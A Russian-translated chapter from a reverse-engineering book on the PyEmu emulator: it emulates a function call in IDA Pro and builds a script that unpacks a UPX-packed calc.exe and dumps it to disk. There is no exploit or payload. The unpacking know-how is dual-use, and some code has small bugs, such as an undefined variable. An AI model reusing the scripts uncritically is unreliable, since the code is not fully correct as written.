%% # Load the binary's data segment
%% data_start = SegByName(".data")
%% data_end = SegEnd( data_start )

%% (#3): while data_start <= data_end:
%%     emu.set_memory( data_start, GetOriginalByte(data_start), size=1 )
%%     data_start += 1

%% print "[*] Finished loading data section into memory."
Вначале присваиваем значение объекта IDAPyEmu (\#1), который необходим для использования в любом из методов эмулятора. Затем загружаем секции кода (\#2) и данных (\#3) из двоичного файла в память PyEmu. Мы используем функцию IDAPython SegByName(), чтобы найти начало секций, а функцию SegEnd() для определения конца секций. Затем просто перебираем секции по байтово, чтобы сохранить их в памяти PyEmu. Теперь, когда у нас имеются секции кода и данных, загруженные в память, нам нужно установить: параметры стека для вызова функции; обработчик инструкции (instruction handler), который будет вызван, когда будет выполнена инструкция RETN; и начать выполнение. Добавьте следующий код в ваш скрипт:

addnum\_function\_call.py
Код:
%% ...
%% # Set EIP to start executing at the function head
%% (#1): emu.set_register("EIP", 0x00401000)

%% # Set up the ret handler
%% (#2): emu.set_mnemonic_handler("ret", ret_handler)

%% # Set the function parameters for the call
%% (#3): emu.set_stack_argument(0x8, 0x00000001, name="arg_0")
%% emu.set_stack_argument(0xc, 0x00000002, name="arg_4")

%% # There are 10 instructions in this function
%% (#4): emu.execute( steps = 10 )

%% print "[*] Finished function emulation run."
Сначала устанавливаем EIP в начало функции, которая размещена по 0x00401000 (\#1); это место, откуда PyEmu начнет свое выполнение инструкций. Затем устанавливаем mnemonic или instruction handler, который будет вызван, когда функция выполнит инструкцию RETN (\#2). Третьим шагом является установка параметров стека (\#3) для вызова функции. Эти два числа будут сложены между собой; в нашем случае мы будем использовать 0x00000001 и 0x00000002. Затем просим PyEmu выполнить все 10 инструкций (\#4), содержащиеся в этой функции. На последнем шаге напишем обработчик инструкции RETN, таким образом, заключительный вид скрипта должен выглядеть следующим образом:

addnum\_function\_call.py
Код:
%% import sys
%% sys.path.append("C:\\PyEmu")
%% sys.path.append("C:\\PyEmu\\lib")

%% from PyEmu import *

%% def ret_handler(emu, address):

%%     (#1): num1 = emu.get_stack_argument("arg_0")
%%     num2 = emu.get_stack_argument("arg_4")
%%     sum = emu.get_register("EAX")

%%     print "[*] Function took: %d, %d and the result is %d." % (num1, num2, sum)

%%     return True

%% emu = IDAPyEmu()

%% # Load the binary's code segment
%% code_start = SegByName(".text")
%% code_end = SegEnd( code_start )

%% while code_start <= code_end:
%%     emu.set_memory( code_start, GetOriginalByte(code_start), size=1 )
%%     code_start += 1

%% print "[*] Finished loading code section into memory."

%% # Load the binary's data segment
%% data_start = SegByName(".data")
%% data_end = SegEnd( data_start )

%% while data_start <= data_end:
%%     emu.set_memory( data_start, GetOriginalByte(data_start), size=1 )
%%     data_start += 1

%% print "[*] Finished loading data section into memory."

%% # Set EIP to start executing at the function head
%% emu.set_register("EIP", 0x00401000)

%% # Set up the ret handler
%% emu.set_mnemonic_handler("ret", ret_handler)

%% # Set the function parameters for the call
%% emu.set_stack_argument(0x8, 0x00000001, name="arg_0")
%% emu.set_stack_argument(0xc, 0x00000002, name="arg_4")

%% # There are 10 instructions in this function
%% emu.execute( steps = 10 )

%% print "[*] Finished function emulation run."

Обработчик инструкции RET (\#1) просто извлекает аргументы стека и значение регистра EAX, а затем выводит результат вызова функции. Загрузите двоичный файл addnum.exe в IDA Pro и запустите скрипт PyEmu, также как вы запускали обычный файл IDAPython (см. Глава 11). После запуска вы должны видеть следующий вывод, как показано в Листинге 12-2.

Listing 12-2: Output from our IDAPyEmu function emulator
Код:
%% [*] Finished loading code section into memory.[*] Finished loading data section into memory.[*] Function took 1, 2 and the result is 3.[*] Finished function emulation run.
Довольно просто! Можно видеть, что скрипт успешно перехватывает аргументы стека и извлекает значение регистра EAX (сумма двух аргументов). Попрактикуйтесь, загружайте различные двоичные файлы в IDA Pro, выбирайте случайную функцию и пытайтесь эмулировать ее вызов. Вы будете поражены тем, насколько мощной может быть эта техника, когда функция состоит из сотен или тысяч инструкций с множеством ветвлений, циклов и точек возвратов (return points). Использование этого метода в реверсинге функции может сохранить часы ручного исследования. Теперь давайте воспользуемся библиотекой PEPyEmu для распаковки сжатого двоичного файла.

12.3.2 PEPyEmu

Класс PEPyEmu предоставляет реверсеру возможность, использовать PyEmu в средах статического анализа без использования IDA Pro. Он берет двоичный файл, отображает необходимые секции в памяти и затем использует pydasm для декодирования инструкций. Мы будем использовать PEPyEmu в реальной задаче реверсера, в которой будем брать упакованный двоичный файл, который будем запускать в эмуляторе, чтобы сдампить после того, как он будет распакован. Упаковщиком, который мы планируем использовать, будет Ultimate Packer for Executables (UPX) [2]. Это Open Source упаковщик, который используется множеством вариантов вредоносного ПО, в попытках сохранить размер исполняемого файла маленьким и затруднить статический анализ. В начале, давайте разберемся, что такое упаковщик и как он работает. Затем мы упакуем двоичный файл с помощью UPX. Нашим последним шагом будет использование специального PyEmu скрипта, который Коди Пирсон предоставил для распаковки исполняемых файлов и сброса (dump) результирующего двоичного файла на диск. После того, как файл распакован и сброшен (dumped) на диск, можно применять обычные методы статического анализа.

12.3.3 Executable Packers

Упакощики или компрессоры исполняемых файлов существуют уже довольно давно. Первоначально они использовались, чтобы уменьшить размер исполняемого файла, таким образом, чтобы тот смог поместиться на дискету 1.44 MB. C тех пор они выросли и стали использоваться авторами зловредного программного обеспечения для запутывания (обфускации, obfuscation) кода зловредов. Типичный упаковщик сжимает сегменты кода и данных в целевом двоичном файле и заменяет точку входа (Entry Point, EP) декомпрессора. Когда двоичный файл начинает свое выполнение, запускается декомпрессор, который распаковывает оригинальный двоичный файл в память, и затем передает управление на оригинальную точку входу (Original Entry Point, OEP). После того, как OEP достигнуто, двоичный файл начинает свое нормальное выполнение. Когда реверсер сталкивается с упакованным файлом, он должен сначала избавиться от упаковщика для того, чтобы спокойно анализировать истинный двоичный файл содержащийся в нем. Обычно можно использовать отладчик для выполнения подобного рода задач, но авторы вредоносов, в последние годы, стали более бдительными и встраивают анти-отладочные методы, внутри упаковщиков, таким образом, чтобы использование отладчика против упакованной программы стало очень сложным. Это то место, где использование эмулятора может быть выгодным, поскольку никакой отладчик не присоединен к исполняемой программе; мы просто запускаем код внутри эмулятора и ждем пока процедура распаковки будет окончена. После того, как упаковщик закончил распаковку оригинального файла, нужно сдампить распакованный бинарный файл на диск таким образом, чтобы мы могли загрузить его либо в отладчик, либо в инструмент статического анализа, например, IDA Pro.

Мы будем использовать UPX для сжатия файла calc.exe, который поставляется со всеми версиями Windows. Затем мы будем использовать скрипт PyEmu, чтобы распаковать исполняемый файл и сдампить его на диск. Этот прием может использоваться и для других упаковщиков. Его рассмотрение будет служить отличной отправной точкой для разработки более сложных скриптов, позволяющих противостоять различным упаковщикам, обнаруженным в дикой природе (In the Wild, ITW). 

12.3.4 UPX Packer

UPX – это безплатный упаковщик c открытым исходным кодом, который работает на Linux, Windows и других операционных системах. Он предлагает различные уровни сжатия и множество дополнительных опций. Мы будем применять только основное сжатие, но вы не стесняйтесь исследовать все возможные опции, которые поддерживает UPX. 

Для начала, загрузите UPX по следующей ссылке: 
http://upx.sourceforge.net
После загрузки файла, распакуйте zip-архив на диск "C:\\". Для работы с UPX следует использовать командную строку, потому что он поставляется без графической оболочки (GUI). В командной строке, перейдите в директорию, куда был установлен UPX (в моем случае это "C:\\upx303w\\") и введите следующую команду:

Код:
%% C:\upx303w>upx -o c:\calc_upx.exe C:\Windows\system32\calc.exe

%%                    Ultimate Packer for eXecutables
%%                       Copyright (C) 1996 - 2008
%% UPX 3.03w Markus Oberhumer, Laszlo Molnar & John Reiser Apr 27th 2008

%%           File size           Ratio       Format           Name
%%     --------------------    --------    -----------    ------------
%%        114688 -> 56832       49.55%      win32/pe      calc_upx.exe

%% Packed 1 file.
%% C:\upx303w>
Это создаст сжатую версию Windows калькулятора и сохранит его в корне диска "C:\". Флаг –o определяет имя файла, под которым должен быть сохранен упакованный исполняемый файл; в нашем случае мы сохраняем его как calc\_upx.exe. Теперь у нас есть полностью упакованный файл, с которым можно проводить тесты в PyEmu, так что давайте приступим к кодингу!

12.3.5 Unpacking UPX with PEPyEmu

Упаковщик UPX использует довольно простой метод сжатия исполняемых файлов: он добавляет две секции (UPX0 и UPX1) к двоичному файлу и изменяет точку входа (EP) так, чтобы она указывала на процедуру распаковки. Если вы загрузите упакованный файл в Immunity Debugger и исследуете расположение памяти (ALT+M), то вы увидите, что карта памяти в исполняемом файле аналогична той, что показана в Листинге 12-3:

Listing 12-3: Memory layout of a UPX compressed executable.
Код:
%% Address  Size     Owner    Section Contains     Access Initial Access
%% 00100000 00001000 calc_upx         PE Header    R      RWE
%% 01001000 00019000 calc_upx UPX0                 RWE    RWE
%% 0101A000 00007000 calc_upx UPX1    code         RWE    RWE
%% 01021000 00007000 calc_upx .rsrc   data,imports RW     RWE
%%                                    Resources
Можно видеть, что секция UPX1 содержит код. Это место, где упаковщик UPX создает основную процедуру распаковки. Упаковщик выполняет процедуру распаковки в этой секции, и когда распаковка закончена – передает (JMP) управление на реальный код двоичного файла, находящийся за пределами секции UPX1. Все, что мы должны сделать, это позволить эмулятору выполнить процедуру распаковки и обнаружить инструкцию JMP, которая получает EIP, выходящий за пределы секции UPX1, после чего мы должны оказаться в OEP.

Теперь, когда у нас есть двоичный файл, упакованный с помощью UPX, давайте воспользуемся PyEmu, чтобы распаковать и сдампить (dump) оригинальный бинарный файл на диск. На этот раз, мы будем использовать автономный модуль PEPyEmu, поэтому откройте новый Python файл, назовите его upx\_unpacker.py и введите следующий код:

upx\_unpacker.py
Код:
%% from ctypes import *

%% # You must set your path to pyemu
%% sys.path.append("C:\\PyEmu")
%% sys.path.append("C:\\PyEmu\\lib")

%% from PyEmu import PEPyEmu

%% # Commandline arguments
%% exename = sys.argv[1]
%% outputfile = sys.argv[2]

%% # Instantiate our emulator object
%% emu = PEPyEmu()

%% if exename:
%%     # Load the binary into PyEmu
%%     (#1): if not emu.load(exename):
%%         print "[!] Problem loading %s" % exename
%%         sys.exit(2)
%% else:
%%     print "[!] Blank filename specified"
%%     sys.exit(3)

%% (#2): # Set our library handlers
%% emu.set_library_handler("LoadLibraryA", loadlibrary)
%% emu.set_library_handler("GetProcAddress", getprocaddress)
%% emu.set_library_handler("VirtualProtect", virtualprotect)

%% # Set a breakpoint at the real entry point to dump binary
%% (#3): emu.set_mnemonic_handler( "jmp", jmp_handler )

%% # Execute starting from the header entry point
%% (#4): emu.execute( start=emu.entry_point )
Вначале загружаем упакованный двоичный файл в PyEmu (\#1). Затем устанавливаем library handlers (\#2) на LoadLibraryA, GetProcAddress и VirtualProtect. Все эти функции будут вызваны во время процедуры распаковки, поэтому нам нужно перехватить и эмулировать их вызовы. Следующим шагом является обработка случая, когда процедура распаковки закончена и происходит прыжок на OEP. Обработка этого случая будет произведена с помощью установки mnemonic handler на инструкцию JMP (\#3). В конце, говорим эмулятору, начать выполнение с точки входа (EP) исполняемого файла (\#4). Теперь, давайте доработаем скрипт и добавим соответствующие обработчики: 

upx\_unpacker.py
Код:
%% from ctypes import *

%% # You must set your path to pyemu
%% sys.path.append("C:\\PyEmu")
%% sys.path.append("C:\\PyEmu\\lib")
%% from PyEmu import PEPyEmu

%% '''

%% HMODULE WINAPI LoadLibrary(
%%   __in LPCTSTR lpFileName
%% );

%% '''

%% (#1): def loadlibrary(name, address):
 
%%     # Retrieve the DLL name
%%     dllname = emu.get_memory_string(emu.get_memory(emu.get_register("ESP") + 4))

%%     # Make a real call to LoadLibrary and return the handle
%%     dllhandle = windll.kernel32.LoadLibraryA(dllname)
%%     emu.set_register("EAX", dllhandle)

%%     # Reset the stack and return from the handler
%%     return_address = emu.get_memory(emu.get_register("ESP"))
%%     emu.set_register("ESP", emu.get_register("ESP") + 8)
%%     emu.set_register("EIP", return_address)

%%     return True

%% '''
%% FARPROC WINAPI GetProcAddress(
%%   __in HMODULE hModule,
%%   __in LPCSTR lpProcName
%% );

%% '''

%% (#2): def getprocaddress(name, address):

%%     # Get both arguments, which are a handle and the procedure name
%%     handle = emu.get_memory(emu.get_register("ESP") + 4)
%%     proc_name = emu.get_memory(emu.get_register("ESP") + 8)

%%     # lpProcName can be a name or ordinal, if top word is null it's an ordinal
%%     if (proc_name >> 16):
%%         procname = emu.get_memory_string(emu.get_memory(emu.get_register("ESP") + 8))
%%     else:
%%         procname = arg2

%%     # Add the procedure to the emulator
%%     emu.os.add_library(handle, procname)
%%     import_address = emu.os.get_library_address(procname)

%%     # Return the import address
%%     emu.set_register("EAX", import_address)

%%     # Reset the stack and return from our handler
%%     return_address = emu.get_memory(emu.get_register("ESP"))
%%     emu.set_register("ESP", emu.get_register("ESP") + 8)
%%     emu.set_register("EIP", return_address)
    
%%     return True

%% '''

%% BOOL WINAPI VirtualProtect(
%%   __in LPVOID lpAddress,
%%   __in SIZE_T dwSize,
%%   __in DWORD flNewProtect,
%%   __out PDWORD lpflOldProtect
%% );

%% '''

%% (#3): def virtualprotect(name, address):

%%     # Just return TRUE
%%     emu.set_register("EAX", 1)

%%     # Reset the stack and return from our handler
%%     return_address = emu.get_memory(emu.get_register("ESP"))
%%     emu.set_register("ESP", emu.get_register("ESP") + 16)
%%     emu.set_register("EIP", return_address)
    
%%     return True

%% # When the unpacking routine is finished, handle the JMP to the OEP
%% (#4): def jmp_handler(emu, mnemonic, eip, op1, op2, op3):

%%     # The UPX1 section
%%     if eip < emu.sections["UPX1"]["base"]:
%%         print "[*] We are jumping out of the unpacking routine."
%%         print "[*] OEP = 0x%08x" % eip

%%         # Dump the unpacked binary to disk
%%         dump_unpacked(emu)

%%         # We can stop emulating now
%%         emu.emulating = False

%%         return True
Наш обработчик LoadLibrary (\#1) захватывает имя DLL из стека перед использованием ctypes, чтобы сделать реальный вызов функции LoadLibraryA, которая экспортируется из kernel32.dll. После того, как был осуществлен реальный вызов, в регистр EAX устанавливается возвращаемое значение дескриптора, сбрасывается стек эмулятора и осуществляется выход из обработчика. Обработчик функции GetProcAddress (\#2) работает похожим образом. Он из стека получает два параметра функции и делает реальный вызов GetProcAddress, которая экспортируется из kernel32.dll. Затем в регистре EAX возвращается адрес запрашиваемой процедуры. После чего сбрасывается стек эмулятора и осуществляется выход из обработчика. Обработчик функции VirtualProtect (\#3) – возвращает значение TRUE, сбрасывает стек эмулятора и выходит из обработчика. Причина, по которой мы не делаем реальный вызов VirtualProtect заключается в том, что нам не нужно защищать страницы памяти; поэтому нам просто нужно, чтобы вызов VirtualProtect завершался успешно. Обработчик инструкции JMP (\#4) делает простую проверку, чтобы понять выпрыгиваем ли мы из процедуры распаковки? Если да, то вызывает функцию dump\_unpacked, чтобы сдампить распакованный двоичный файл на диск. После чего говорит эмулятору остановить выполнение, так как распаковка нашего файла подошла к своему концу.

Последним шагом будет добавление процедуры dump\_unpacked; мы добавим ее после наших обработчиков.

upx\_unpacker.py
Код:
%% ...
%% def dump_unpacked(emu):
%%     global outputfile
%%     fh = open(outputfile, 'wb')

%%     print "[*] Dumping UPX0 Section"

%%     base = emu.sections["UPX0"]["base"]
%%     length = emu.sections["UPX0"]["vsize"]

%%     print "[*] Base: 0x%08x Vsize: %08x"% (base, length)

%%     for x in range(length):
%%         fh.write("%c" % emu.get_memory(base + x, 1))

%%     print "[*] Dumping UPX1 Section"

%%     base = emu.sections["UPX1"]["base"]
%%     length = emu.sections["UPX1"]["vsize"]

%%     print "[*] Base: 0x%08x Vsize: %08x" % (base, length)

%%     for x in range(length):
%%         fh.write("%c" % emu.get_memory(base + x, 1))

%%     print "[*] Finished."
Тут мы просто дампим секции файла UPX0 и UPX1 и это является нашим последний шаг в распаковке запакованного исполняемого файла. После того, как файл сохранен на диск, мы можем загрузить его в IDA Pro и продолжить дальнейший анализ уже оригинального файла. Теперь давайте запустим наш скрипт распаковки из командной строки; вы должны видеть вывод похожий на тот, что показан в Листинге 12-4.

Listing 12-4: Command line usage of upx\_unpacker.py
Код:
%% C:\>C:\Python25\python.exe upx_unpacker.py C:\calc_upx.exe calc_clean.exe[*] We are jumping out of the unpacking routine.[*] OEP = 0x01012475[*] Dumping UPX0 Section[*] Base: 0x01001000 Vsize: 00019000[*] Dumping UPX1 Section[*] Base: 0x0101a000 Vsize: 00007000[*] Finished.
%% C:\>
Теперь у вас есть файл "C:\\calc\\\_clean.exe", который содержит сырой код оригинального исполняемого файла calc.exe, который до этого был упакован. Теперь вы на пути к тому, чтобы начать использовать PyEmu для различного множества задач реверс-инженера!

\end{document}
